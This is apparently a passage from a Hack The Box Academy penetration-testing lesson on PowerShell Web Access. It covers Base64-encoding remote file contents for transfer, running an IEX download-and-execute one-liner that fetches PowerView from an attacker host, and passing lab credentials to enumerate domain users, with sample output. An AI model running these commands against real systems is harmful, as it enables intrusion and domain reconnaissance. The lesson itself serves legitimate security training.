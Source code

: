When working with PowerShell Web Access and needing to retrieve large amounts of information, we should consider using `Base64` output to optimize the process. PowerShell Web Access connects to the target machine to retrieve each line, meaning it may take much time to retrieve a large file if we are on a slow network.

For example, if we try to get the contents of `C:\Windows\System32\drivers\etc\hosts` using `cat`, it will take some time to load due to the line-by-line transfer. Instead, we can use the following command to convert the file contents to Base64:

```powershell
PS C:\Tools> [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\System32\drivers\etc\hosts"))

```

![text](https://academy.hackthebox.com/storage/modules/263/pswa-base64.png)

This will load faster. We can then copy that content to a file, replace the break lines, and use `cat hosts_base64.txt | base64 -d > hosts` in a Linux terminal to decode the content quickly.

In case we want to use `PowerView` through `PowerShell Web Access` we may get the following error:

```powershell
PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.87/PowerView.ps1')
PS C:\Tools> Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At line:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
 + FullyQualifiedErrorId : DirectoryServicesCOMException

```

To prevent this from happening, we must specify our credentials as follows:

```powershell
PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Get-DomainUser -Credential $credential -FindOne

logoncount                    : 1100
badpasswordtime               : 6/27/2024 6:32:03 AM
description                   : Built-in account for administering the computer/domain
distinguishedname             : CN=Administrator,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 6/30/2024 6:21:56 AM
name                          : Administrator
lockout time                   : 0
objectsid                     : S-1-5-21-2760730334-3436498779-657182845-500
samaccountname                : Administrator
logonhours                    : {255, 255, 255, 255...}
...SNIP...

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>